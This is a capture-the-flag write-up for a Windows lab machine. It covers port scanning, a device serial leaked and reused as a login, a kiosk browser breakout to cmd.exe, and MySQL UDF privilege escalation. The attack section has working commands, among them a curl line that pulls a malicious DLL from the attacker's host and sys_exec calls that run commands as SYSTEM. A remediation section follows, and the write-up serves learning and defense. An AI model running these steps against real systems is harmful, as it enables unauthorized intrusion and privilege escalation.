*(NOOOOO windows machine im so done)*

## User Flag
- Recon:
    - 

```bash
nmap -sC -sV 10.129.44.105
```

```
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Service
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Nexion DeviceHub - Login
```

- Let's break down these ports cause im a noob at windows
    - `135: RPC, windows fingerprinting endpoint, sometimes leaks info but almost never the way in`
    - `3389: RDP, may be useful after we have a set of creds`
    - `5985: WinRM, can be used with evil-winrm to login`
    - `8443: Web service, so we can visit here first`
- Add to `/etc/hosts`, and visiting :8443
    - 
- If we try to fuzz http://10.129.44.105:8443/FUZZ or even http://10.129.44.105:8443/login/FUZZ, we get a bunch of redirections
    - 
- So we do `-fc 302` and try to fuzz whatever we get
- 
- See that we have a 403 api, but if we fuzz another time with that as base
    - 
- This status seems useful:
    - 
      <span class="caption">The unauthenticated status endpoint returns the device details, including its serial `NX-DH-2024-B7042`, the value that logs us in next.</span>
- Ok, we have the serial number, maybe we can login with that
    - 
- Poking around we see that we have
    - 
- Let's try this at `evil-winrm` and also `xfreerdp`, seems like `xfreerdp` works
    - 
- I was stuck in this rdp session for a bit, but i saw this on the box itself:
    - 
- Seems useful, and we get directed to a scan passport part
    - 
-   I've powered off the scanner in the admin dashboard, and it seems we can breakout of this Kiosk
    - 
- After googling how to breakout, I found out that the browser could be used to browse local directories! `file:///C:/` cool
    - 
- 
  <span class="caption">The kiosk browser opens `C:/Users/KioskUser/Desktop/user.txt` straight from a `file:///` path: the user flag.</span>
- This user flag is very interesting indeed

## Root Flag
- Let's spawn a shell for us using similar techniques: `file:///C:/Windows/System32/cmd.exe`
- After a hell of a time of enumeration, I found the creds for MySQL
    - 
- Let's login: `mysql -u root -p'HTB...'`
- after loggin in and enumerating, we actually do not see any useful password hashes or something else, thus I had to search for privesc ways
- I found in a discord chat that hinted:
    - 
- Alright, so in this context, we can login as root in mysql right, this means if we can run any system commands inside mysql we can run it as root. So what's the bridge between writing stuff via root in mysql and letting it successfully show outside of MySQL?
    - **User Defined Functions!!**
- To be more precise, the database superuser can `CREATE FUNCTION (load UDFs)`. `lib_mysqludf_sys` is a UDF library whose functions are sys_exec() and sys_eval(), and their native code just calls the C system() / popen()
> I have MySQL-root → MySQL-root can load UDFs → a UDF runs native code inside mysqld → mysqld runs as SYSTEM → therefore my command runs as SYSTEM. The UDF exists because SQL alone has no way to reach the OS; it's the mechanism that gives database-root a hand into the operating system.

- Now the attack:
    - `SELECT @@plugin_dir;` check where we need to place the UDF dll
    - `icacls "C:\MySQL\lib\plugin" ` check if we have the permissions to do so
    - On Kali:
        - `cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll /tmp/`
        - `cd /tmp && python3 -m http.server 8000` setup the server to serve this
    - `curl http://<YOUR_TUN0_IP>:8000/lib_mysqludf_sys_64.dll -o "C:\MySQL\lib\plugin\lib_mysqludf_sys_64.dll"` 
    - `USE mysql;`
    - `CREATE FUNCTION sys_exec RETURNS INT SONAME 'lib_mysqludf_sys_64.dll';` -> This loads the UDF
    - If it runs w/o errors, we can utilize `SELECT sys_exec('whoami > C:\\Users\\Public\\who.txt');` this to check if we are root using `sys_exec`
    - If we are, we just easily grab the root flag
        - `SELECT sys_exec('cmd /c type C:\\Users\\Administrator\\Desktop\\root.txt > C:\\Users\\Public\\root.txt');`
- 
> Conclusion: this is so hard lol why are windows boxes so difficult

## Remediation

- **A device serial number is not a password.** The DeviceHub login accepted a serial that the API itself leaked through an unauthenticated status endpoint. Don't expose device identifiers on endpoints reachable before auth, and don't use a guessable/leakable serial as a credential — require a real secret and rate-limit the login.
- **Lock the kiosk down.** The passport-scan browser let us navigate to `file:///C:/` and then launch `cmd.exe`. A kiosk should disable local-file schemes, hide the address bar, block right-click / keyboard shortcuts, and use an allowlist of URLs. Windows [Assigned Access / kiosk mode](https://learn.microsoft.com/en-us/windows/configuration/assigned-access/) plus AppLocker to stop `cmd.exe`/`powershell.exe` from launching would have contained this.
- **Don't run MySQL as SYSTEM, and don't let it load arbitrary UDFs.** The root step was `CREATE FUNCTION sys_exec ... SONAME 'lib_mysqludf_sys_64.dll'`, which only works because (a) we had DB-root, (b) the plugin dir was writable, and (c) `mysqld` ran as SYSTEM. Run MySQL under a low-privilege service account, set `--secure-file-priv`, make the plugin directory non-writable by the service, and don't leave root DB credentials in plaintext config where an enumerating user can read them. See [MySQL — UDF security](https://dev.mysql.com/doc/refman/8.0/en/udf-security.html).

### References

- [Windows — set up a kiosk (Assigned Access)](https://learn.microsoft.com/en-us/windows/configuration/assigned-access/)
- [MySQL — User-defined function security precautions](https://dev.mysql.com/doc/refman/8.0/en/udf-security.html)
- [MITRE ATT&CK — T1059 Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
